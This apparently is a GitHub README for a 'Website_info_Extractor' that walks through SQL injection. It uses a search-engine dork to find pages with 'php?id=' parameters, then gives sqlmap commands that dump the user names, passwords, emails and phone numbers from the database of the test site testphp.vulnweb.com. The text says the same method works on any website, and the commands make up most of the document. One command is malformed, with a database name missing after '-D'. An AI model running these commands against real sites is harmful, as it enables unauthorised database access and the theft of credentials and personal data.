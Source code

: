 # Website_info_Extractor
This is tried on tester website but you can do on any of the website to extract the data from the database.

open browser

searching for vulnweb.com open it now copy the link
paste the link in new tab with some changes sidte:link/ php?id= ex.(site:http://testphp.vulnweb.com/ php?id=) now you get some link copy first link.

now open your kali terminal give root permission to terminal

now follow the commands

sudo su

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 --dbs

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D --tables    #(show tables)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C uname --dump  #(show users)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C pass --dump   #(show password)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C email --dump    #(show email)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C phone --dump    #(show phone no.)

for practical video go to my youtube channel @Hackudozone
